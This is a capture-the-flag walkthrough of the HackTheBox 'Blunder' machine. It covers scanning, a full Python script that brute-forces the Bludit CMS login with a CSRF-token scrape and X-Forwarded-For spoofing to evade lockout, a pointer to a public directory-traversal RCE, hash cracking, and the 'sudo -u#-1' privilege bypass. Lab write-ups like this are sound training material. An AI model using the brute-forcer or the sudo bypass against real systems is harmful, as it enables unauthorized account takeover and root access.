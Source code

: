 ```yaml
---
title: HackTheBox - Blunder
categories: htb 
excerpt: | 
  Blunder is a easy difficulty Linux machine. 

feature_text: |
  ## Blunder - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```



### Scanning process
nmap ip:
``` 
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-generator: Blunder
| http-title: Blunder | A blunder of interesting facts
| http-server-header: Apache/2.4.41 (Ubuntu)
``` 

So we can investigate the main page of this ip. Then we can use wfuzz to find some other directories of it and we will see 'http://10.10.10.191/admin' and it is a login page. 

Try with the most common credentials but unfortunatly you cannot access to it.

We can search for txt extension with wfuzz and it will has a todo.txt page with a valid username that we can use late.


### Scripting in python
A very commom practice, when we have a lot of word in the main page, is to use the word of the own page to guest the password. There is a utility named 'cewl' which will create a dictionary.
  'cewl -w dictionary.txt http://10.10.10.191'

Now we can do a script in python to crack the password:

``` python
#!/usr/bin/python3
from pwn import *
import signal, os, time, requests, pdb, re

# Variables globales
file_name = "dictionary.txt"
main_url = "http://10.10.10.191/admin/login"

def handler(signum, frame):
    print("\n\n[!] Saliendo del programa.")
    sys.exit( -1 )

def bruteForce():
    s = requests.session()
    f = open(file_name, 'r')
    p1 = log.progress("Brute Force")
    p1.status("Starting attack")
    time.sleep(2)
    count = 1

    for passwd in f.readlines():
        passwd = passwd.strip('\n')
        p1.status( "Testing password [%d/349]: %s" % (count, passwd))
        r = s.get(main_url)
        token = re.findall(r'name="tokenCSRF" value="(.*?)"', r.text)[0]
        
        headers = {
            'X-Forwarded-For': '%s' % passwd
        }
        post_data = {
            'tokenCSRF': token,
            'username': 'fergus',
            'password': '%s' % passwd,
            'save': ''
        }
        r = s.post(main_url, data=post_data, headers=headers)
        
        if( "Username or password incorrect" not in r.text ):
            p1.success( "Password is %s" % passwd )
            break
        count += 1

signal.signal(signal.SIGINT, handler) 

if __name__ == "__main__":
  bruteForce()
```

We will get a valid credential...

Now it is time to get a vulnerability that let us remote command execution (RCE): Searchsploit Bludit and select Directory traversal. Follow this script and you are finally inside of the machine.

### Privilege scalation
Take a look of where is the user.txt flag. `find / \-name user.txt 2> /dev/null`

So it seems that we have to migrate to hugo. Let's take a look of the bludit content and there is a 'users.php' file which content a hash. We can crack it online with crackstation.net

Migrate to hugo and then search for privilege: `sudo -l`
>User hacker may run the following commands on kali:
>   (ALL, !root) /bin/bash

sudo -u#-1 /bin/bash



